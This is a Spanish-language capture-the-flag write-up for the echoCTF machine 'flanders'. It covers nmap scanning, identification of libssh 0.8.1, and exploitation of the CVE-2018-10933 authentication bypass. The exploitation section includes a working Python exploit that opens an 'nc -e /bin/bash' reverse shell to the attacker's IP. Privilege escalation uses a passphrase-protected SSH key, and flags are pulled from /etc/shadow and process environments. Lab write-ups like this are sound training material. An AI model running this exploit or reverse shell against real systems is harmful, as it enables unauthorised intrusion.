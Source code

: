 # Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [flanders](https://echoctf.red/target/13) |
| Dificultad | Beginner |
| Banderas | 4 (2 system, env, root) |
| Puntos | 4,800 pts (system/1,000 pts, system/1,300 pts, env/900 pts, root/1,500 pts) |
| Descripción / Pistas | Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is `Okily Dokily`. Catch phrase sounds like a pass phrase, only without space |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
❯ sudo nmap -T5 -open -vvv --min-rate=5000 -p- -n -Pn -oG nmap/all_ports $BOX_TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:35 CDT
Initiating SYN Stealth Scan at 09:35
Scanning 10.0.100.34 [65535 ports]
Discovered open port 6022/tcp on 10.0.100.34
Completed SYN Stealth Scan at 09:35, 14.77s elapsed (65535 total ports)
Nmap scan report for 10.0.100.34
Host is up, received user-set (0.14s latency).
Scanned at 2021-10-27 09:35:04 CDT for 15s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT     STATE SERVICE REASON
6022/tcp open  x11     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.11 seconds
           Raw packets sent: 72729 (3.200MB) | Rcvd: 70809 (2.832MB)
```

### Escaneo específico

```bash
❯ nmap -sCV -p 6022 -oN nmap/targeted $BOX_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:48 CDT
Nmap scan report for 10.0.100.34
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
| ssh-hostkey:
|_  2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
```

# Enumeración

## Servicios (nombre - puerto)

### ssh - 6022

#### Manual

Dado el reconocimiento por medio de `nmap` se puede identificar que se está corriendo un servidor `ssh` en un puerto no convencional y se expone la versión `libssh 0.8.1`, después de una búsqueda se puede identificar que la versión expuesta cuenta con una vulnerabilidad la cuál explota un bypass de autenticación, reportada en el [CVE-2018-10933](https://nvd.nist.gov/vuln/detail/CVE-2018-10933).

Se encontraron diversos scripts en python que abusan de la vulnerabilidad:

- https://www.exploit-db.com/exploits/45638
- https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d

# Explotación

## libSSH Authentication Bypass

### Pasos previos | Preparación

Como parte de los scripts buscados se encontró el siguiente código en un script que resultó bastante simple de ejecutar, únicamente realizando los cambios pertinentes de ip, puerto y comando (entablando una reverse shell).

**Script**
```python
#!/usr/bin/python3

import sys
import paramiko
import socket

s=socket.socket()
s.connect(("10.0.100.34",6022))
m=paramiko.message.Message()
t=paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
t._send_message(m)
c=t.open_session(timeout=5)
c.exec_command("nc -e /bin/bash 10.10.0.26 1234")
out=c.makefile("rb",2048)
output=out.read()
out.close()
print (output)
```

### Ejecución

![exploit_1](./images/exploit_1.png)

1. Ejecución de script.
2. Listener de reverse shell.

# Post Explotación

## Enumeración

Realizando enumeración manual se puede observar que el directorio principal del usuario al que se accede `ETSCTF` contiene una llave `ssh` que a primera impresión apuntaría a un método de escalación de privilegios a `root`.

![post_1](./images/post_1.png)

1. Directorio.
2. Llave.
3. Usuario al que pertenece.

## Escalación de privilegios

### ETSCTF &rarr; root

La idea inicial a seguir sería extraer la llave encontrada para intentar acceder al sistema con ella, dado que ningún intento funcionó, se puede tratar de ubicar si existe algún otro medio de acceso a la máquina por el cuál esté restringida a conexiones provenientes únicamente desde local, es decir, de `flanders` hacia `flanders`. Para comprobar esto se puede buscar si algún servicio de `ssh` está ejecutandose y si existe algún puerto que esté a la escucha de nuevas conexiones.

![post_2](./images/post_2.png)

La salida del comando mapea automáticamente los puertos comúnes para el servicio siendo así que `127.0.0.1:ssh` sería lo mismo que `127.0.0.1:22`, verificando de esta manera que se escuchan conexiones `ssh` localmente.

![post_3](./images/post_3.png)

En esta comprobación se puede ver que se está ejecutando `sshd` correspondiente al servidor de `ssh` en linux.

Se suelen proteger las llaves `ssh` con passphrases y observando que en la descripción de la máquina se proporciona una passphrase (`Okily Dokily`) se pudiera concluir que al hacer uso de la llave se pedirá.

![post_4](./images/post_4.png)

Logrando así satisfactoriamente la escalación de privilegios.

![post_5](./images/post_5.png)

## Ubicación de banderas

1. `/etc/passwd`.
2. `/etc/shadow`.
3. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
4. `/root`.
